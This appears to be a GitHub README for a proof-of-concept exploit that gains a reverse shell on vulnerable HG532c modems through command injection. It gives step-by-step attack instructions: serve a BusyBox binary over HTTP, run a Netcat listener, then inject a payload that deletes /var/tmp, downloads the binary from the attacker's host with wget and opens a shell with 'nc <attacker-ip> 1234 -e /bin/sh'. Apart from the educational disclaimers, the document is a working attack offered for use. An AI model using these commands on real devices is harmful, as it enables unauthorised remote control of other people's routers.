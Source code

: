 
# RCE-HG532c

This repository contains a proof of concept for gaining a reverse shell on vulnerable **HG532c modems** through a command injection exploit. The target devices do not have Netcat included in their default BusyBox installation. This method downloads a custom BusyBox binary (which includes Netcat) to the modem and uses it to establish a reverse shell.
This is a web exploit though 80 port using python requests module. This vulnerability was discovered through firmware
analysis. The firmware was extracted with Bus Pirate v4 with hardware hacking techniques.

![alt text](image.png)

## Disclaimer

This project is intended for educational purposes only and should not be used in any illegal activities. Always have permission from the device owner before attempting any exploits. The repository authors are not responsible for any misuse of this software.

## Exploit Steps

The following steps outline how to execute the reverse shell exploit on a vulnerable HG532c modem:

### 1. Start a Python Web Server

First, you need to host the `busybox-mips` binary on a Python web server so the vulnerable modem can download it.

In the directory where you have `busybox-mips`:
```bash
python3 -m http.server 8000
```

### 2. Start a Netcat Listener

On the attacker's machine, set up a Netcat listener to catch the reverse shell connection. Replace `1234` with the desired port:
```bash
nc -lvnp 1234
```

### 3. PAYLOAD

Use the following payload to download `busybox-mips` to the modem, grant it execution permissions, and use it to open a reverse shell back to the attacker's machine:

```bash
# Clean up the /var/tmp directory and create a new one
rm -rf /var/tmp
mkdir /var/tmp

# Download busybox-mips from the attacker's machine
wget -g -v -r http://<attacker-ip>:8000/busybox-mips -P /var/tmp

# Grant execution permissions to busybox-mips
chmod +x /var/tmp/busybox-mips

# Start a reverse shell from the modem to the attacker's machine
/var/tmp/busybox-mips nc <attacker-ip> 1234 -e /bin/sh
```

Replace `<attacker-ip>` with the actual IP address of the attacker's machine.

### Notes

- **BusyBox MIPS Binary**: Make sure that the `busybox-mips` binary includes the Netcat utility.
- **Reverse Shell**: The reverse shell will connect back to the attacker's machine on the specified port (`1234` in this example).

![alt text](image-1.png)

## Requirements

- Python 3 (for hosting the web server)
- Netcat (for catching the reverse shell)
- A vulnerable HG532c modem that allows command injection

## Legal Disclaimer

This software is provided for educational purposes only. The author is not responsible for any illegal use of this software. You are responsible for ensuring that you have permission to exploit any device.
